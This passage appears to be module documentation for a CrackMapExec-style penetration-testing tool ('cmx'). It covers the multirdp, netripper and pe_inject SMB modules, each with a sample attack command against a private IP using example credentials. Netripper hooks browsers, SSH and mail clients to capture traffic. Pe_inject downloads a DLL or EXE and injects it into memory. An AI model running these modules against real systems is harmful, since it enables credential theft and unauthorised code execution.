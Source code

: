 Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```

```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M multirdp
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## netripper                 
Injects NetRipper in memory using PowerShell  
        Note: NetRipper doesn't support injecting into x64 processes yet, which very much limits its use case  

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```
*   PROCESS   Process to hook, only x86 processes are supported by NetRipper currently 
                (Choices: firefox, chrome, putty, winscp, outlook, lync) 
```
*Fails for chrome currently*

**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M netripper -o PROCESS=firefox
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## pe_inject                 
Downloads the specified DLL/EXE and injects it into memory using PowerSploit's Invoke-ReflectivePEInjection.ps1 script  

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | False 

**Options:**
```
    PATH     Path to dll/exe to inject
    PROCID   Process ID to inject into (default: current powershell process)
    EXEARGS  Arguments to pass to the executable being reflectively loaded (default: None)
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M pe_inject 
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------